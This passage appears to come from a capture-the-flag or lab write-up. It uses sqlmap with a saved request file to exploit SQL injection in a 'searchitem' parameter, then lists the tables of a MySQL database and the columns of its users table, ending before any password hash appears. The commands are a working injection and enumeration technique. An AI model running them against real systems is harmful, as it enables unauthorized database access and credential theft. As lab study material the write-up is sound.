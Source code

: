 ![](/assets/obsidian/57942d674ab558f38747ad80dd6ac4fd.png)


### Questions


#### In the users table, what is the hashed password?

```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch -D db --tables
```

```bash
Database: db
[2 tables]
+-------+
| post  |
| users |
+-------+
```

```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch -D db -T users --columns
```

```bash
Database: db
Table: users
[2 columns]
+----------+------+
| Column   | Type |
+----------+------+
| pwd      | text |
| username | text |
+----------+------+
```
